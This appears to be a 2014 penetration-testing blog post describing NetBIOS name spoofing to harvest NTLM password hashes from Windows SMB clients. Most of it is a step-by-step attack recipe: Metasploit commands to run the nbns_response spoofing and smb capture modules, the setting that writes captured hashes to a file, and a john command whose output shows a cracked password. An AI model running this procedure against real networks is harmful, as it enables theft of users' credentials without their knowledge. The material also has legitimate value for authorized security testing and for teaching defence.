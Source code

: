 ```yaml
---
title: "NetBIOS Name Spoofing and SMB"
date: "2014-06-05T12:00:00-04:00"
url: "/posts/netbios-name-spoofing-and-smb"
categories:
- infosec
tags:
- pentesting
- netbios
- smb
- authentication
summary: "NBNS still works!"
---
```


This is a fun technique for harvesting user credentials that still works:
NetBIOS name spoofing. NetBIOS is a Session layer technology from the early
1980's that is still in use on networks today. Today, NetBIOS is used
predominately in Windows networks as the session service for Server Message
Block (SMB) aka Common Internet File System (CIFS), an Application layer
technology for sharing files, printers, and inter process communication (IPC).

# Start the NetBIOS Name Spoofing

Using Metasploit, load the auxiliary/spoof/nbns/nbns_response module:

```
msf> use auxiliary/spoof/nbns/nbns_response
msf auxiliary(nbns_response) > show options

Module options (auxiliary/spoof/nbns/nbns_response):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   INTERFACE                   no        The name of the interface
   REGEX      .*               yes       Regex applied to the NB Name to determine if spoofed reply is     sent
   SPOOFIP    127.0.0.1        yes       IP address with which to poison responses
   TIMEOUT    500              yes       The number of seconds to wait for new data
```

We are most interested in the "SPOOFIP" option, as this is the IP address our
spoofed responses will come from. Note that this module will not work well with
Network Address Translation (NAT), as the NetBIOS protocol itself is not
NAT-friendly see [this article][faughnan]. The "REGEX" option allows you to
match on parts of the NetBIOS name you want to target, if you are targeting a
specific host on the network. If this is left blank, all NetBIOS requests to
your host will be handled by this module.

# Useful NetBIOS Spoofing

Now that we can spoof a legitimate host's NetBIOS response, let's use this
capability to capture a user's NTLM hash from SMB requests. For detailed
information on NTLM authentication over SMB, [see Microsoft's documentation on
MSDN][MSFT-NTLM-SMB]. In summary, a typical NTLM authentication session over SMB
looks like this:

1. Client sends SMB_COM_NEGOTIATE request
2. Server replies with SMB_COM_NEGOTIATE response
3. Client sends NTLM NEGOTIATE_MESSAGE request
4. Server replies with NTLM CHALLENGE_MESSAGE response
5. Client sends NTLM AUTHENTICATE_MESSAGE request
6. Server replies with SMB_COM_SESSION_SETUP response

We will attack the negotiations in steps 4 and 5 using a Metasploit module to
create a service which will respond to SMB requests. This will afford us the
opportunity to create a predictable NTLM CHALLENGE_MESSAGE (Step 4) for
submission to the client. This message normally includes an 8-bit random value,
however, since we are the SMB server, we can control the value. When the client
responds to this challenge with NTLM AUTHENTICATE_MESSAGE, it will include the
NTLM hash of the user's password!

From Metasploit, load the auxiliary/server/capture/smb module:

~~~~
msf auxiliary(nbns_response) > use auxiliary/server/capture/smb
msf auxiliary(smb) > show options

Module options (auxiliary/server/capture/smb):

   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel format
   CHALLENGE   1122334455667788  yes       The 8 byte challenge 
   JOHNPWFILE                    no        The prefix to the local filename to store the hashes in JOHN format
   SRVHOST     0.0.0.0           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     445               yes       The local port to listen on.
   SSL         false             no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   SSLVersion  SSL3              no        Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1)
~~~~

Most of these values are fine left as default, but take note of the CAINPWFILE
and JOHNPWFILE settings. These will dump client responses into files prepared
for use by these tools. Awesome! I prefer to use john for password attacks, so I
will set the JOHNPWFILE and begin the exploit:

~~~~
msf auxiliary(smb) > set JOHNPWFILE /tmp/john_pw.log
JOHNPWFILE => /tmp/john_pw.log
msf auxiliary(smb) > exploit -j -z
[*] Auxiliary module running as background job
~~~~

Now I just need to wait for a victim to connect...  (Here I am forcing the
connection from a Windows 7 VM)

Here's what the client sees:

{{< figure src="/images/2014/06-05-1.png" caption="SMB auth" >}}

And here's what we capture on our end: 

{{< figure src="/images/2014/06-05-2.png" caption="SMB capture" >}}

Almost there. Now, run `john` against the NTLM hash...

```bash
$ john --wordlist=/tmp/wordlist.txt john_pw.log_netntlmv2
Loaded 4 password hashes with 4 different salts (NTLMv2 C/R MD4 HMAC-MD5 [32/64])
eve              (dagorim)
```

Great! Now it's time for further fun.

# Not the Newest Tool in the Box

This technique still works, though. 

[faughnan]: http://www.faughnan.com/netbios.html
[MSFT-NTLM-SMB]: http://msdn.microsoft.com/en-us/library/cc669093.aspx
